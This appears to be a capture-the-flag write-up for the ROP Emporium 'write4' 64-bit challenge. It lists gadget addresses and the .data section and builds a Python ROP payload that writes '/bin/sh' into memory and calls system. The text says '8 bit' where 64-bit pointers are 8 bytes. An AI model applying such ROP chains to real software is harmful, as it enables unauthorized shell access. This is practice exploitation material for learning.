 # write4 - 64bit

Once again, the 64bit version is the same concept as the [32bit exploit](../32-bit/README.md).

Searching for the same format gives us the gadgets below:
```
0x0000000000400890 : pop r14 ; pop r15 ; ret
0x0000000000400820 : mov qword ptr [r14], r15 ; ret
```

These will allow us to load a string into memory. Due to the 8 bit size of 64-bit pointers, we can load "/bin/sh" into memory with a single call.

As with the `32-bit` version the data is being written to `.data` section.

```
$ readelf --sections write4 | grep .data
[25] .data             PROGBITS         0000000000601050  0000105
```

The final stage is loading the address of the string into the `rdi` register for the system call.

```
0x0000000000400893 : pop rdi ; ret
```

This, therefore, creates a ROP chain like so:

```python
payload = b""
payload += junk
payload += g_pop        # pop r14 ; pop r15 ; ret
payload += data_addr    
payload += command
payload += g_mov        # mov qword ptr [r14], r15 ; ret
payload += pop_rdi      # pop rdi ; ret
payload += data_addr    
payload += sys_addr
```